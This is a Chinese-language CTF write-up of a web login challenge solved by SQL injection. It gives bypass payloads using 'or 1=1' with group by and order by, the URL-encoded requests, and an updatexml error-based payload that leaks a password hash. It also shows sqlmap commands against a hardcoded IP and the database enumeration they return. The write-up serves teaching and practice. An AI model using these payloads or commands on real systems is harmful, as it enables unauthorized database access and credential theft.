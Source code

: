 >little hint: 看这里的源码链接是index.php.txt ，看来出题人喜欢把源码加上后缀名txt放在网站上。

显然是一个 sql 注入的题目，根据题目使用万能密码 ` user=flag , pass=' or 1=1 # `,在 burpsuite 中抓包的内容是 `user=flag&pass=%27+or+1%3D1+%23` 返回值 `Password is right, but it's not for the flag` 。

再次查看源码，发现题目中的 `$row = mysqli_fetch_array($query);` 这一句，说明每次从数据库中只取第一行数据返回，那么就有可能第一行返回的时间不是我们要的 flag 用户。

试着让返回数据分组一下，按照第一列分组，虽然一般第一列都是 id ，但是我们这里还是写作 ` group by 1 `，那么提交的数据就是 `user=flag , pass=' or 1=1 group by 1 #` , 在 burpsuite 中抓包的结果是 `user=flag&pass=1%27+or+1%3D1+group+by+1+%23` ， 成功返回 flag 。

其实根据同样的思路，也可以用 `order by 1`， 请求数据 `user=flag , pass=' or 1=1 order by 1 #` , 在 burpsuite 中抓包结果是 `user=flag&pass=%27+or+1%3D1+order+by+1+%23+` , 也能够得到 flag 。

在 MySQL 中的注释，除了有 `#` 之外，还可以是 `--  ` ，后面有几个空格或 tab ,虽然双横线也能注释，但是#号的使用效果好一些，有的地方双横线并不能注释#号确可以。

除了万能密码之外，其实还能够直接将密码注出来，构造 payload 为`user=flag&pass=' or updatexml(1,concat(0x7e,(select pw from user limit 1,1 )),0) # '`，可以直接将 flag 用户的密码注出来，返回值为 `Error: XPATH syntax error: '~*75DBBA7B5806E761411'` ， flag 用户的密码为 `*75DBBA7B5806E761411` ，即可用此密码登陆，得到 flag 。

或者，直接上 sqlmap ，虽然有点大材小用，但是是可以的。对了，为了防止被封 ip ，最好使用举办方提供的 ss 来进行注入。

第一步跑数据库

```
./sqlmap.py -u "http://101.200.145.44/web1/" --data "user=sss&pass=sss" --proxy=socks5://127.0.0.1:1080 --dbs
```

返回两个数据库

```
[00:53:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0
[00:53:53] [INFO] fetching database names
[00:53:53] [INFO] the SQL query used returns 2 entries
[00:53:53] [INFO] retrieved: information_schema
[00:53:53] [INFO] retrieved: web1
available databases [2]:
[*] information_schema
[*] web1
```

返回了不少有效信息，可以看出来是 MySQL 数据库，有两个 databases ，那我们来查看一下 web1 里有几个表单。

```
./sqlmap.py -u "http://101.200.145.44/web1/" --data "user=sss&pass=sss" –dbms "MySQL" --proxy=socks5://127.0.0.1:1080 -D "web1" --tables
```

```
Database: web1
[1 table]
+------+
| user |
+------+
```
